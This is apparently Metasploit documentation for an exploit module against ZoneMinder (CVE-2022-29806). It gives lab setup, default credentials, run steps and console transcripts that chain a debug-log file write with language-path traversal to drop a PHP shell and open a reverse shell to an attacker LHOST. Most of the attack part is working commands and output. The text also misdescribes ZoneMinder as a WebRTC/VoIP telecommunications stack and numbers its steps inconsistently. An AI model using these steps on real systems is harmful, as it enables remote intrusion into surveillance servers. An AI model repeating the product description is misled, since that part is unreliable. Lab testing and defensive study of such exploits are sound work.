 ## Description

This module exploits arbitrary file write in debug log file option chained with a path traversal in language settings that leads to a remote code execution in ZoneMinder surveillance software versions before 1.36.13 and before 1.37.11

More about the vulnerability detail: [CVE-2022-29806](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-29806).

The module will automatically use `php/reverse_perl` payload.

The module will check if authentication is enabled but Zoneminder does not enable the authentication by default.

## Vulnerable Application
[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:
* 1.36.4~64bit on Ubuntu 18.04
* 1.34.23~64bit on Debian 11.10

### Source and Installers
* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/)
* [Installers](https://github.com/ZoneMinder/zoneminder/#installation-methods)
* [Docker](https://github.com/ZoneMinder/zmdockerfiles)

### Docker installation
```
docker run -d --rm -ti -p 1080:80 \
    -e TZ='Europe/London' \
    --shm-size="512m" \
    --name zoneminder \
    zoneminderhq/zoneminder:latest-ubuntu18.04
```
Navigate to [http:\//172.17.0.2/zm/index.php?view=privacy](http://172.17.0.2/zm/index.php?view=privacy) and click **APPLY** to activate the dashboard

### Enable authentication
To enable authentication for verification and scenarios, follow this steps:
1. Navigate to [http:\//172.17.0.2/zm/index.php?view=options](http://172.17.0.2/zm/index.php?view=options)
2. Tick the **OPT_USE_AUTH** option and click save
3. Login with the default password `admin:admin`
4. Navigate to [http:\//172.17.0.2/zm/index.php?view=options&tab=users](http://172.17.0.2/zm/index.php?view=options&tab=users) and change the admin password

## Verification Steps
1. Do: `use exploit/unix/webapp/zoneminder_lang_exec`
2. Do: `set RHOSTS [ips]`
5. Do: `set LHOST [lhost]`
6. Do: `run`
7. You should get a shell.

## Options
### RPORT
The Zoneminder target port (default: 80)
### TARGETURI
The ZoneMinder path (default: `/zm/`)
### USERNAME
The ZoneMinder username (default: admin)
### PASSWORD
The ZoneMinder password (default: admin)

## Scenarios
### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker
```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/rmdQiqoLFCsov.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:58932) at 2022-04-27 03:36:31 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker with authentication enabled
```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set PASSWORD password
PASSWORD => password
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/Cn3PqXcN9VlAR98.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:51944) at 2022-04-27 18:53:14 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Failed exploitation due to invaild credentials
```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[-] Service found, but authentication failed
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable.
[*] Exploit completed, but no session was created.
```
